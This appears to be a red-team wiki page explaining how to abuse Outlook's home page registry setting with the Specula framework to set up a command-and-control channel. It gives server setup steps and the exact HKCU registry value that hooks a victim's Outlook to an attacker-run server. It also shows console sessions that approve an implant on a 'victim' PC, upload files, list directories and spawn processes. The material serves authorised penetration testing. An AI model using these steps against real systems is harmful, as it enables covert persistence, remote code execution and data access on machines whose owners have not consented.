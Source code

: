 # Outlook Home Page Abuse (Specula)

## Theory

[Specula ](https://github.com/trustedsec/specula)is a framework designed to enable interactive operations of an implant within the context of Outlook. It achieves this by setting a custom Outlook homepage via registry keys that call out to an interactive Python web server. This web server serves custom patched VBScript files that execute a command and return a string response.

Despite the belief that the Outlook home page functionality had been patched ([CVE-2017-11774](https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2017-11774)), it was discovered that the associated Registry values continue to be utilized by Outlook, even in current Office 365 installs.

To establish a C2 channel, an attacker can modify a single non-privileged Registry key, creating the `REG_SZ` value of `URL` under `HKCU\Software\Microsoft\Office\16.0\Outlook\WebView\Inbox` and pointing it to the validation URL on the Specula server:

## Practice

{% tabs %}
{% tab title="Setting up" %}
You can use IP addresses, but a recommendation is to use a DNS record. In this example we are going to use DNS. Start by pointing a DNS record towards your public IP of the server you will be using as a Specula server. Let us pretend that we created an A-record named demo.specula.com with the value of our public IP.

#### HTTPS

If you are planning to use SSL (Recommended) you will need to request the certificates. This guide shows how to do that with free let's encrypt certificates. We first need to install certbot:

```
apt install certbot
```

Next you want to make sure that you have allowed inbound communication on port 80/443. Then we request a certificate using the example of demo.specula.com (change this to your environment):

```
certbot certonly --non-interactive --agree-tos --email <SOME EMAIL ADDRESS> --standalone --preferred-challenges http -d demo.specula.com
```

This will produce certificate files so note down the paths to them, since you will need to reference them when starting Specula for the first time. In our example we want to keep these lines:

```
/etc/letsencrypt/live/demo.specula.com/fullchain.pem
/etc/letsencrypt/live/demo.specula.com/privkey.pem
```

The path to fullchain.pem will be the input when Specula asks for the _cert\_file_ as part of the startup and the privkey.pem will be to the _key\_file_.

#### Setting up Specula

First you should install a python virtual environment. You can of course install to the global package root, but this can cause issues that are later hard to diagnose.

If you're unfamiliar with python virtual environments and just want to know what to type a basic install would look like

```
python -m venv venv
source venv/bin/activate
pip install -r requirements.txt
```

#### Starting Specula

```
sudo python specula.py
```

Since this is the first time you are starting Specula it will ask you for a variety of options, which will then be stored and used for future runs. The settings will be stored in a file called _specConfig.ini_. If you ever want to reset your settings and start over this file can be removed.
{% endtab %}

{% tab title="Hook an agent" %}
### Edit Registry

To hook an agent, all you need to do is to create the registry `REG_SZ` value of `URL` under `HKCU\Software\Microsoft\Office\16.0\Outlook\WebView\Inbox` and add the value pointing to your validation url on the Specula server.

<figure><img src="../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

To avoid issues with ActiveX, it is recommended to adjust a few settings. Users can generate a full reg file with the recommended settings by running `generatehooker` from the root of the Specula menu. This reg file can then be copied to a Windows client with Outlook and imported. To ensure the registry key takes effect, Outlook should be stopped and restarted if it is running.

```
SpeculaC2> generatehooker 
```

<figure><img src="../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

### Approve Agent

The agent should now show up in Specula and depending on setup, you will either need to approve it manually (if initial\_checkin\_count is set to 0) or you will have to wait until the necessary checkins have been reached before Specula will generate an encryption key and send back to the agent. On the Outlook side when everything is completed, it will change view from Inbox to Calendar. Once you change view back to Inbox you have a fully Specula agent running.

```powershell
# List agents
SpeculaC2> agents
id  hostname:username             ip address        refreshTime  Lastseen              approved    encryptionkey            api installed/verified
1   DEMO-VICTIME-PC:User           192.168.206.172   10           08/14/2024-11:50:56   NO (Checkin: 2 of 0)N/A                      False/False

# Approve Agent
SpeculaC2> approveAgent 1
Agent will be approved on next callback
```
{% endtab %}

{% tab title="Execute" %}
### Select Agent

In order to assign tasks to agents and execute code, we first need to select it

```powershell
# List agents
id  hostname:username             ip address        refreshTime  Lastseen              approved    encryptionkey            api installed/verified
1   DEMO-VICTIME-PC:User          192.168.206.172   10           08/14/2024-11:51:21   YES         HNjPsC0pruHvYPTTZVXpAA   False/False

# Select agent
SpeculaC2> interact 1
```

### Execute a module

```powershell
# Upload a file
SpeculaC2:hostname>usemodule operation/file/put_file
SpeculaC2:hostname:operation/file/put_file>set file /tmp/file2upload.txt
SpeculaC2:hostname:operation/file/put_file>set destination c:\temp\file2upload.txt
SpeculaC2:hostname:operation/file/put_file>run
Module operation/file/put_file added to execution queue
SpeculaC2:hostname>07/24/2024-08:02:30 - Finished uploading file to hostname at c:\temp\file2upload.txt - Sizes match: server:7 - agent:7

# Directory listing
SpeculaC2:hostname>usemodule operation/file/list_dir
SpeculaC2:hostname:operation/file/list_dir>set directory c:\temp
SpeculaC2:hostname:operation/file/list_dir>run
Module operation/file/list_dir added to execution queue
SpeculaC2:hostname>data
07/24/2024-07:59:29 -- operation/file/list_dir
Parent Folder: c:\temp
F: C:\temp\importantfile.txt - Size: 0mb - LastModified: 7/22/2024 1:19:18 PM

# Spawn a process
SpeculaC2:hostname>usemodule execute/host/spawnproc_explorer
SpeculaC2:hostname:execute/host/spawnproc_explorer>set command c:\windows\system32\msiexec.exe
SpeculaC2:hostname:execute/host/spawnproc_explorer>set arguments /?
SpeculaC2:hostname:execute/host/spawnproc_explorer>run
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://trustedsec.com/resources/tools/specula" %}

{% embed url="https://github.com/trustedsec/specula/wiki" %}
